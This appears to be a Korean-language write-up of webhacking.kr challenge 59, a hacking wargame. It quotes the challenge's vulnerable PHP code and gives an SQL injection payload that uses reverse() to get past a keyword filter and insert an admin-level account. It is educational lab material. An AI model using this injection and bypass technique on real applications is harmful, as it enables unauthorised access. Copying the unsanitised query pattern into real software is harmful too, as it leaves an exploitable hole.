 ================================================================================================================
[webhacking.kr] 59
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="post_data: {id=nimda&phone=1,reverse(id)),(1,1}",arrowhead="normal"];
        step3 -> step2[label="join success",arrowhead="normal"];
        step4 -> step5[label="post_data: {id=nimda&phone=1}",arrowhead="normal"];
        step7 -> step6[label="login success",arrowhead="normal"];
    }

|

취약점 존재 여부 확인
================================================================================================================

- POST 가입 및 로그인 페이지 취약점
- 가입 POST 파라미터: id, phone 
- 로그인 POST 파라미터: lid, lphone 
- MySQL, eregi
- reverse


.. code-block:: php

    <?
    if($_POST[lid] && $_POST[lphone])
    {
        $q=@mysql_fetch_array(mysql_query("select id,lv from c59 where id='$_POST[lid]' and phone='$_POST[lphone]'"));
        if($q[id])
        {
            echo("id : $q[id]<br>lv : $q[lv]<br><br>");
            if($q[lv]=="admin")
            {
                @mysql_query("delete from c59");
                @clear();
            }
            echo("<br><a href=index.php>back</a>");
            exit();
        }
    }

    if($_POST[id] && $_POST[phone])
    {
        if(strlen($_POST[phone])>=20) exit("Access Denied");
        if(eregi("admin",$_POST[id])) exit("Access Denied");
        if(eregi("admin|0x|#|hex|char|ascii|ord|from|select|union",$_POST[phone])) exit("Access Denied");
        @mysql_query("insert into c59 values('$_POST[id]',$_POST[phone],'guest')");
    }

    ?>
    <html><head><title>Challenge 59</title></head><body>
    <form method=post action=index.php>
    <table border=1>
    <tr><td>JOIN</td><td><input name=id></td><td><input name=phone></td><td><input type=submit></td></tr>
    <tr><td>LOGIN</td><td><input name=lid></td><td><input name=lphone></td><td><input type=submit></td></tr>
    </form>
    </body></html>


|

Filtering Bypass
================================================================================================================

admin 문자열에 대해 필터링이 걸려있기 때문에, reverse 함수를 이용하여 admin 문자열을 거꾸로 입력하는 방식을 사용합니다.

.. code-block:: javascript

    $_POST[id] = nimda
    $_POST[phone] = 1,reverse(id)),(1,1

    "insert into c59 values('nimda',1,reverse(id)),(1,1,'guest')"

계정 추가가 성공적으로 되면 nimda 계정으로 로그인하면 Clear!!

.. code-block:: python

    $_POST[lid] = nimda
    $_POST[lphone] = 1

    "select id,lv from c59 where id='nimda' and phone='1'"

